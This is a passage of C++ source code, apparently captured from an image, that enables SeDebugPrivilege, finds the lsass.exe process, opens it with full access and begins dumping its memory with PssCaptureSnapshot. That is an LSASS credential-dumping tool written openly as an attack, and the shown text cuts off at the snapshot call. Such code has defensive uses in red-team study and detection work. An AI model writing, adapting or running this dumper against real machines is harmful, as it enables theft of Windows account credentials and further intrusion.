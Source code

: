 ```cpp
    HANDLE hToken;
    TOKEN_PRIVILEGES tp;
    LUID luid;

    // Open current process token
    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken))
        return false;

    // Lookup LUID for the privilege
    if (!LookupPrivilegeValue(NULL, privName, &luid))
        return false;

    // Enable the privilege
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

    return AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);
}

// Enumerates all processes and finds the PID of lsass.exe
DWORD GetLsassPID() {
    PROCESSENTRY32 pe = { sizeof(PROCESSENTRY32) };
    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    if (Process32First(hSnap, &pe)) {
        do {
            if (_wcsicmp(pe.szExeFile, L"lsass.exe") == 0) {
                CloseHandle(hSnap);
                return pe.th32ProcessID;
            }
        } while (Process32Next(hSnap, &pe));
    }

    CloseHandle(hSnap);
    return 0;
}

int main() {
    std::cout << "[+] Starting LSASS snapshot dump using PssCaptureSnapshot...\n";

    // Step 1: Enable SeDebugPrivilege
    if (!EnablePrivilege(SE_DEBUG_NAME)) {
        std::cerr << "[-] Failed to enable SeDebugPrivilege.\n";
        return 1;
    }

    // Step 2: Get LSASS process ID
    DWORD lsassPid = GetLsassPID();
    if (!lsassPid) {
        std::cerr << "[-] Could not find LSASS process.\n";
        return 1;
    }

    // Step 3: Open LSASS process with full access
    HANDLE hLsass = OpenProcess(PROCESS_ALL_ACCESS, FALSE, lsassPid);
    if (!hLsass) {
        std::cerr << "[-] Failed to open LSASS process.\n";
        return 1;
    }

    // Step 4: Capture snapshot using PssCaptureSnapshot
    HPSS snapshotHandle = nullptr;
```